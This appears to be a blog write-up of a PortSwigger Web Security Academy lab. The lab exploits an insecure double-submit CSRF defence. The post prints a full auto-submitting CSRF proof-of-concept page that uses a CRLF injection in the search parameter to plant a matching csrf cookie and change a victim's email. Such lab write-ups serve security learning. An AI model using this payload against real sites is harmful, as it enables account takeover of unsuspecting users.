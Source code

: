 ```yaml
---
layout: post
title:  "CSRF where token is duplicated in cookie"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login using the credentials `wiener:peter` provided in the lab objective and now I've updated the email.. Intercepted the request and looking into the request.. we have CSRF token in two places.. One in the header under cookies and another one in the POST body as a parameter 

![]({{ site.baseurl }}/assets/images/csrf-13.png) 

I've updated one of the csrf token kinda just changed the last value on `csrf` inside the `Cookie:` and as a response says that `CSRF token is invalid`

![]({{ site.baseurl }}/assets/images/CSRF-14.png)

Found that when we both values of the CSRF token are same and then request passes through 

![]({{ site.baseurl }}/assets/images/csrf-15.png) 

Let's generate the CSRF POC and keep that aside.. because we have a way to manipulate the body params `csrf` value.. But we need to find a way to inject the values of csrf inside the Cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

We have identified a crlf vulnerability in the home page search functionality and may able to inject the custom values for `csrf` inside `Cookie`

![]({{ site.baseurl }}/assets/images/csrf-16.png) 

Let's make the search request as an `<img src>` and replace it with `<script>` in the previously generated POC 

```html
<img src="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Here is how the complete payload looks like 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

This Should solve the lab but the portswigger didn't mark it as solved xd